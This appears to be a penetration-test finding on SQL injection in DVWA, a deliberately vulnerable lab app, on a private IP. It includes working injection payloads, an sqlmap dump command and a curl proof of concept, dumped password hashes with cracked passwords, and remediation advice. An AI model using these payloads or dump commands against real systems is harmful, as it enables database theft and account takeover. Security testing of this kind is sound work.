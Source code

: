 # DVWA SQL Injection: /DVWA/vulnerabilities/sqli/ 'id' parameter (authenticated, security=low) enables database exfiltration and account takeover

**ID:** vuln-0002
**Severity:** CRITICAL
**Found:** 2025-10-22 16:07:07 UTC

## Description

Summary
A critical SQL Injection vulnerability exists in the DVWA module at:
GET http://192.168.13.214/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit
Affected parameter: id (GET)
Authentication context: Authenticated user session required; DVWA security level set to Low.
Impact: Full database exfiltration of the dvwa database including user password hashes; cracked credentials enable account takeover (validated for admin/password via browser).

Environment and context
- Target: DVWA on 192.168.13.214
- Web server: Apache 2.4.58 on Ubuntu (from sqlmap fingerprint)
- DBMS: MySQL (MariaDB fork), version detected by sqlmap
- Authenticated cookie used: PHPSESSID=turmqf3c4d8394e78clit57i4j; security=low
- Evidence directory: /workspace/evidence
  - /workspace/evidence/sqlmap_dbs.txt
  - /workspace/evidence/sqlmap_enum.txt
  - /workspace/evidence/sqlmap_dump_users.txt
  - /workspace/evidence/sqlmap_output/192.168.13.214/dump/dvwa/users.csv
  - /workspace/evidence/sqli_evidence.json

Verified injection techniques
1) Boolean-based
   - True predicate:
     id=1' OR '1'='1
     Result: Page returns multiple result rows (pairs_count increased from baseline 1 to 5). Evidence: sqli_evidence.json → boolean_true pairs; python timing baseline vs true/false.
   - False predicate:
     id=1' AND '1'='2
     Result: No result rows (pairs_count 0) while HTTP 200. Evidence: sqli_evidence.json → boolean_false.

2) Time-based blind
   - Payload:
     id=1' AND SLEEP(3)#
   - Observation: Response delayed ≈3.0 seconds (time-based: 3.018s). Evidence: sqli_evidence.json → time_based.

3) Error-based
   - sqlmap confirmed MySQL error-based technique:
     MySQL >= 5.0 AND error-based - WHERE/HAVING... (FLOOR)
   - Evidence: sqlmap_dbs.txt and sqlmap_enum.txt show detected payloads and title.

4) UNION-based
   - Payloads:
     id=1' UNION SELECT user, password FROM users#
     id=1' UNION ALL SELECT user, password FROM users# 
     id=1' UNION SELECT user, password FROM users-- -
   - Result: Inline disclosure of usernames and MD5 hashes in application response:
     admin 5f4dcc3b5aa765d61d8327deb882cf99
     gordonb e99a18c428cb38d5f260853678922e03
     1337 8d3533d75ae2c3966d7e0d4fcc69216b
     pablo 0d107d09f5bbe40cade3de5c71e9e9b7
     smithy 5f4dcc3b5aa765d61d8327deb882cf99
   - Evidence: sqli_evidence.json → union_sample; python run captured multiple user/password pairs.

DBMS fingerprint and injection summary (sqlmap)
- Injection confirmed on GET parameter id with multiple techniques:
  - OR boolean-based blind (NOT)
  - MySQL AND error-based (FLOOR)
  - MySQL AND time-based blind (SLEEP)
  - Generic UNION query (2 columns)
- DBMS: MySQL (MariaDB fork)
- Current database: dvwa
- Current user: dvwa@localhost (not DBA)
- Available databases: dvwa, information_schema
- Evidence: /workspace/evidence/sqlmap_dbs.txt and /workspace/evidence/sqlmap_enum.txt

Full data exfiltration (sqlmap)
Command used (authenticated with cookies):
sqlmap -u "http://192.168.13.214/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=turmqf3c4d8394e78clit57i4j; security=low" --batch -D dvwa -T users --dump --output-dir=/workspace/evidence/sqlmap_output -v 1

Dumped table: dvwa.users (5 entries)
- Columns: user_id, role, user, avatar, password, last_name, first_name, last_login, failed_login, account_enabled
- Sample rows (hashes with plaintext as present in DVWA):
  admin 5f4dcc3b5aa765d61d8327deb882cf99 (password)
  gordonb e99a18c428cb38d5f260853678922e03 (abc123)
  1337 8d3533d75ae2c3966d7e0d4fcc69216b (charley)
  pablo 0d107d09f5bbe40cade3de5c71e9e9b7 (letmein)
  smithy 5f4dcc3b5aa765d61d8327deb882cf99 (password)
Evidence:
- /workspace/evidence/sqlmap_dump_users.txt
- /workspace/evidence/sqlmap_output/192.168.13.214/dump/dvwa/users.csv

Credential cracking and verification
- Hash type: Unsalted MD5 (raw)
- Cracked credentials (from app output and standard wordlist knowledge):
  admin : password
  gordonb : abc123
  pablo : letmein
  smithy : password
  1337 : charley
- Verification: Successful browser login demonstrated using admin/password (navigated to DVWA index with authenticated menu; screenshot state observed during validation). This confirms real-world account takeover from SQLi-exfiltrated data.
- Note: Programmatic login attempts without CSRF token varied by context, but browser-based login succeeded, proving impact.

Reproduction steps (manual PoC)
1) Login to DVWA and set security to Low.
2) Navigate to SQL Injection module: /DVWA/vulnerabilities/sqli/
3) Baseline request:
   GET /DVWA/vulnerabilities/sqli/?id=1&Submit=Submit
4) Boolean-based PoC:
   GET /DVWA/vulnerabilities/sqli/?id=1'%20OR%20'1'%3D'1&Submit=Submit
   Observation: Multiple user rows returned.
   GET /DVWA/vulnerabilities/sqli/?id=1'%20AND%20'1'%3D'2&Submit=Submit
   Observation: Zero rows.
5) Time-based PoC:
   GET /DVWA/vulnerabilities/sqli/?id=1'%20AND%20SLEEP(3)%23&Submit=Submit
   Observation: ~3s response delay.
6) UNION-based PoC to dump users:
   GET /DVWA/vulnerabilities/sqli/?id=1'%20UNION%20SELECT%20user,%20password%20FROM%20users%23&Submit=Submit
   Observation: Usernames and password hashes are rendered in the response.

Example cURL (authenticated)
curl -s -i -G "http://192.168.13.214/DVWA/vulnerabilities/sqli/" \
  --data-urlencode "id=1' UNION SELECT user, password FROM users#" \
  --data "Submit=Submit" \
  -H "Cookie: PHPSESSID=turmqf3c4d8394e78clit57i4j; security=low"

Risk and impact
- Confidentiality: High. Complete dump of application users and credentials (hashes) leading to valid credential recovery and account takeover (admin).
- Integrity: High. SQLi commonly enables data manipulation; although stacked queries were not confirmed here, attacker control over query output and potential write operations in other contexts present high risk.
- Availability: Not targeted in this exploit path.
- Business impact: Compromise of user accounts (including admin), exposure of sensitive PII if present, potential lateral movement to administrative functions, and potential chaining to other dangerous modules resulting in system compromise.

CVSS v3.1 (representative)
Vector: AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:N
Base Score: 8.0 (High)
Severity rationale: Despite login requirement (PR:L), the vulnerability enables full database exfiltration and administrative account takeover. Considering common industry practice, this issue warrants Critical severity for remediation prioritization.

Evidence index
- Boolean/time/union timing and result deltas: /workspace/evidence/sqli_evidence.json
- sqlmap database enumeration: /workspace/evidence/sqlmap_dbs.txt
- sqlmap user/privilege enumeration: /workspace/evidence/sqlmap_enum.txt
- sqlmap dvwa.users dump (CSV): /workspace/evidence/sqlmap_output/192.168.13.214/dump/dvwa/users.csv
- Full dump log: /workspace/evidence/sqlmap_dump_users.txt

Root cause
- The id parameter is concatenated into an SQL query without proper parameterization or strict type casting, allowing attacker-controlled SQL syntax execution.

Remediation
- Use parameterized queries (prepared statements) for all database access. Never concatenate user input into SQL strings.
- Enforce strict server-side validation and type casting: id should be validated as integer and cast server-side.
- Implement least-privilege database accounts; remove unnecessary INSERT/UPDATE/DELETE or metadata read privileges from the web user.
- Disable detailed database errors from being returned to clients.
- Add centralized input validation and output encoding policies.
- Consider a web application firewall as a compensating control to detect and block SQLi payloads, while prioritizing code fixes.
- Review and rotate any credentials exposed; force password resets for affected users; consider adding password hashing best practices (bcrypt/Argon2 with salt).

Recommendation for validation after fix
- Re-test the endpoint with union/time-based payloads and automated tools (sqlmap) to confirm no injection vectors.
- Confirm that only numeric id values are accepted and that non-numeric input is rejected or sanitized before reaching the database layer.

Timeline
- Discovery and validation completed via manual payloads and sqlmap automation; credential verification performed via browser login using exfiltrated admin/password.
